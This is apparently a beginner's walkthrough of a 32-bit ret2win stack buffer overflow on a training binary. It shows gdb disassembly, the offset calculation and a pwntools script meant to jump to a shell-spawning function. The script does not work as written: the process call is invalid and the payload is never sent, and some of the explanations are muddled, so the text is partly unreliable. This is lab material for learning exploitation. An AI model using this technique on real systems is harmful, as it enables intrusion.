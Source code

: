 !![vuln](screenshots/vuln32(1).png)

https://github.com/ishwar2000/You_Tube/tree/main/Stack_Buffer_Overflow/1

so here we got a c program to overflow,as we can see here we need to access the hackrich function in order to access the shell.So lets open gdb and see what we can get from there.

```bash
❯ file vul32
vul32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=eecc7a47756955b6423845e714486ab1e218a19d, for GNU/Linux 3.2.0, not stripped
```
here we check the file type and architecture of the file and it is 32 bit.
we can use checksec to see what protection it used but we dont need for this problem as it is a ret2win kindsa challenge(idk if its right or wrong im new)

so we open gdb to gatehr some info about buffer+ebp.
```bash
❯ gdb -q vul32
Reading symbols from vul32...
(No debugging symbols found in vul32)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  __libc_start_main@plt
0x08049040  gets@plt
0x08049050  puts@plt
0x08049060  system@plt
0x08049070  _start
0x080490a0  _dl_relocate_static_pie
0x080490b0  __x86.get_pc_thunk.bx
0x080490c0  deregister_tm_clones
0x08049100  register_tm_clones
0x08049140  __do_global_dtors_aux
0x08049170  frame_dummy
0x08049176  hackrich
0x080491b2  foo
0x080491eb  main
0x08049203  __x86.get_pc_thunk.ax
0x08049208  _fini
```

here we can get hackrich function address which is 0x08049176 for future reference,lets disassemble main and foo.

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080491eb <+0>:     push   ebp
   0x080491ec <+1>:     mov    ebp,esp
   0x080491ee <+3>:     and    esp,0xfffffff0
   0x080491f1 <+6>:     call   0x8049203 <__x86.get_pc_thunk.ax>
   0x080491f6 <+11>:    add    eax,0x2dfe
   0x080491fb <+16>:    call   0x80491b2 <foo>
   0x08049200 <+21>:    nop
   0x08049201 <+22>:    leave
   0x08049202 <+23>:    ret
End of assembler dump.
```
not much happening in main fucntion as it just calls for foo function,so lets disassemble foo to see what happens there.

```bash
(gdb) disas foo
Dump of assembler code for function foo:
   0x080491b2 <+0>:     push   ebp
   0x080491b3 <+1>:     mov    ebp,esp
   0x080491b5 <+3>:     push   ebx
   0x080491b6 <+4>:     sub    esp,0x34
   0x080491b9 <+7>:     call   0x80490b0 <__x86.get_pc_thunk.bx>
   0x080491be <+12>:    add    ebx,0x2e36
   0x080491c4 <+18>:    sub    esp,0xc
   0x080491c7 <+21>:    lea    eax,[ebx-0x1fd7]
   0x080491cd <+27>:    push   eax
   0x080491ce <+28>:    call   0x8049050 <puts@plt>
   0x080491d3 <+33>:    add    esp,0x10
   0x080491d6 <+36>:    sub    esp,0xc
   0x080491d9 <+39>:    lea    eax,[ebp-0x30]
   0x080491dc <+42>:    push   eax
   0x080491dd <+43>:    call   0x8049040 <gets@plt>
   0x080491e2 <+48>:    add    esp,0x10
   0x080491e5 <+51>:    nop
   0x080491e6 <+52>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080491e9 <+55>:    leave
   0x080491ea <+56>:    ret
End of assembler dump.
```
we see the starts for lea function,it like *Just give me the address ebp-0x30 — I don’t care what’s stored there*,so it loads the address in eax and then eax got push in the stack.so lets examine how many buffer it hold in (ebp-0x30)
As we know ebp aka baso pointer hold up to 4 buffer/char so now we ned to know how much does 0x30 buffer hold its value.
```python
❯ python3
Python 3.13.2 (main, Feb  5 2025, 01:23:35) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x30
48
```

so in python we got 48 buffer it holds,that is hwy it is important to check in the gdb itself on how many buffer it hold as the source code itself says that it hold only 40 buffer in char buffer(40)

so lets write our payload to go the the hackrich function and get the shell!
we can use padding like A*48(buffer)+B*4(EBP)+0x08049176(hackrich function) or u can write any 4 character in ebp because our goal to overwrite it,like u could go print A*52(48+4)+0x08049176(return address) any u prefer.
but in little endian(because the file in 32-bit) we need to reverse the order of the bytes to /x76/x91/x04/x08 like this or in pwntools script just type p32(0x08049176) to reverse the bytes for us.
so the full script will be like the following

```python
from pwn import *

p.process(./vul32) #specify the file

print(p.recv())#it receive the file

padding = b'A' * 48 + b'B' * 4 #our padding to overwrite the buffer
ret_address = p32(0x08049176) #our return pointer when our padding have overwrite the buffer

print(p.clean())

p.interactive()#this will let us have shell interaction
```

![we have our shell](screenshots/vuln32(shell).png)

run the script and we successfully exploit the system to ret to our prefer address and spawn the shell!
Classic ret2win: hijack the control flow by exploiting an overflow to call a function already present in the binary.